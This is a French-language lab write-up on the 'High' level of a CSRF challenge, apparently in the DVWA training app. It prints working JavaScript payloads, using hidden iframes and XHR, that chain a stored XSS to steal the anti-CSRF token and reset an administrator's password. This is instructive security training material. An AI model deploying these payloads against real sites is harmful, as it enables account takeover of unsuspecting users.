

# Niveau "High"

L’analyse du formulaire indique la présence d’un champ caché nommé "user\_token" (il s'agit d'un jeton anti-CSRF). La valeur de ce champ est régénérée pour chaque requête :


La requête effectuée lors du changement du mot de passe est de type **`GET`** :


Les premiers tests à faire sont sans doute de vérifier la bonne implémentation du jeton. Que se passe t'il en cas de champ vide ou si le champ n'est pas présent ? Ici l'implémentation semble correcte et le jeton est donc obligatoire :


Une faille XSS permet de contourner une protection basée sur un jeton anti-CSRF (qu'il soit per-request ou per-session). Cela se fait en deux étapes :

* Une première requête va permettre de récupérer un jeton CSRF présent sur la page du challenge
* Une seconde requête, comprenant le jeton fraîchement récupéré, va modifier le mot de passe de la victime

****

**Exploitation via des iframes**

Nous affichons une première `<iframe>` qui va afficher la page du challenge afin de récupérer le jeton. La mécanique de récupération se fait grâce à la méthode `readFrame1()` :

```markup
<iframe src="http://192.168.56.203:8080/vulnerabilities/csrf" onload="readFrame1()" id="frame1"></iframe>
```

Voici la fonction `readFrame1()` (hébergée dans un fichier nommé "csrf.js" sur un serveur malicieux) :


```javascript
function readFrame() {
  var token='&user_token=' + document.getElementById("frame1").contentDocument.getElementsByName("user_token")[0].value;
  var link = "http://192.168.56.203:8080/vulnerabilities/csrf?password_new=hacked&password_conf=hacked&Change=Change"+token;
  document.getElementById("frame2").src=link;
}
```


La variable `token` va contenir la chaîne suivante : `"&user_token=jeton_csrf_récupérée"`. Nous allons ensuite assigner à une seconde `<iframe>` une URL représentant la requête **`GET`** effectuant le changement de mot de passe.

Cette `<iframe>` sera appelée de cette façon :

```markup
<iframe id="frame2"></iframe>
```

Ci-dessous la payload ainsi que son affichage lors de l'exécution. Bien penser à injecter la payload en mode "Low" mais de repasser en mode "High" pour son exploitation :

.png>)


Afin de rendre l'attaque plus discrète, il est possible de ne pas afficher les `<iframe>` grâce au style CSS `style="display:none"`


Une fois que l'administrateur visitera la page du challenge XSS, son mot de passe sera changé :



****

**Exploitation via des requêtes XHR**

Un peu plus moderne, il est possible d'effectuer la même attaque en utilisant deux requêtes **`XHR`**. La première va permettre de récupérer le jeton :

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf', true);
xhr.withCredentials = true;
xhr.responseType = "document";

xhr.onload = function () {
        var token = xhr.response.getElementsByName('user_token')[0].value;
        
        // Exécuter Requête 2, changement de mot de passe
};

xhr.send();
```

Et la seconde, d'effectuer le changement de mot de passe une fois la première requête exécutée (et le jeton récupéré) :

> ```javascript
>    // Requête 2
>    var xhr2 = new XMLHttpRequest();
>    xhr2.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token=' + token, true);
>    xhr2.send();
> ```

La mise en place de la payload s'effectue toujours en se servant de la vulnérabilité XSS en niveau "Low" :


Lorsque la victime exécutera la payload XSS cela va déclencher l'attaque CSRF (repasser en "High") :


Le mot de passe de l'administrateur a bien été changé suite à sa visite (du challenge XSS) :


